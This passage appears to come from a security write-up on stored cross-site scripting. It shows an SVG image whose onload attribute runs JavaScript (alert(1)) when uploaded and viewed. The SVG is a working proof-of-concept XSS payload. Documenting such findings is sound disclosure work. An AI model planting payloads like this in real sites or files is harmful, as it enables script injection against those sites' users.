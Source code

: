 ![xss image](https://raw.githubusercontent.com/tvrbk/tvrbk.github.io/main/_posts/brXM-10.png)

# Stored Cross-Site Scripting 4
A more obscure XSS is found by inserting JavaScript inside an image. In this example a SVG image was used with the following contents:

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" height="60" onload="alert(1)" version="1.1" viewBox="0 0 100.0 100.0" width="60">
</svg>
{% endhighlight %}
